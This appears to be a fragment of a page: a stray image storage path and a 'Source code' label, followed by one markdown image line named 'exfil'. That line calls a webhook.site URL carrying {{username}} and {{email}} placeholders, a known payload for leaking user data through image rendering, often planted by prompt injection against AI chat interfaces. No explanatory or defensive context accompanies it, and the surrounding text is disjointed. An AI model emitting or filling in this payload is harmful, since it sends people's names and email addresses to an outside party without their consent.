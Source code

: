 ![exfil](https://webhook.site/3745a677-948d-4316-b732-0dbb2d4f45eb?user={{username}}&email={{email}})
